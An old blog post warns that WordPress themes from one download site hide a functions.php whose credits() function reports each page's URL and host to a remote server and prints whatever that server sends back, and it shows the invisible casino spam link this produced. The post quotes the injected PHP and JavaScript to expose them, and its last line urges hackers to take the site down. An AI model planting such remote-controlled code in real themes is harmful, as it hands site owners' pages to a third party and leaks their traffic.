 ```yaml
---
comments: true
date: 2008-01-24 04:43:02
layout: post
slug: dont-ever-user-wwwtemplatesbrowsercom-for-wordpress-themes
title: Don't ever user www.templatesbrowser.com for wordpress themes
wordpress_id: 182
categories:
- Misc
- PHP
---
```


Today I noticed a JavaScript error on my site, on investigation I saw the following JavaScript code in the page source:

``` javascript
var CCounter=2151068; var CCsite=www.chapter31.com; CCinvisible=0;
<nosc/ript><a hreflang="de" lang="de" href="http://www.portalux.com/">online casino</a></nosc/ript>
var CCounter=2151068; var CCsite=www.chapter31.com; CCinvisible=0;
```

My investigations found that where I downloaded the template from was a nice (NOT) little site called [http://www.templatesbrowser.com/](http://www.templatesbrowser.com/wordpress-themes/). Now what they do is add a "functions.php" file in the original code base, then call a method from the footer "credits();" which is in the functions.php file:

``` javascript
<?php

function credits()
{
 $url = "http://get.templatesbrowser.com/wp.php?" .
       "url=" . urlencode($_SERVER['REQUEST_URI']) . "&" . "host=" . urlencode($_SERVER['HTTP_HOST']);
 $check = @fsockopen("get.templatesbrowser.com", 80, $errno, $errstr, 3);
 if($check)
 {
  @readfile($url);
  fclose($check);
 }
}

?>
```

More information was found from [www.onnoot.com/](http://www.onnoot.com/e/532/Templatesbrowser.com_puts_link_spam_in_WordPress):


> This produces a link at the bottom of every WordPress page, that is invisible for human readers.
>
> Templatesbrowser.com apparently does this to increase the pagerank of certain websites. Weâ€™re not sure if Google falls for this little link spam trick. But if Google does find out that your page contains link spam, you risk being punished. That could mean that your website is removed from Google's search result pages.

So for those who don't know I hope this was useful, if any people out there are crackers/hackers do me a favour and pull their site down :)
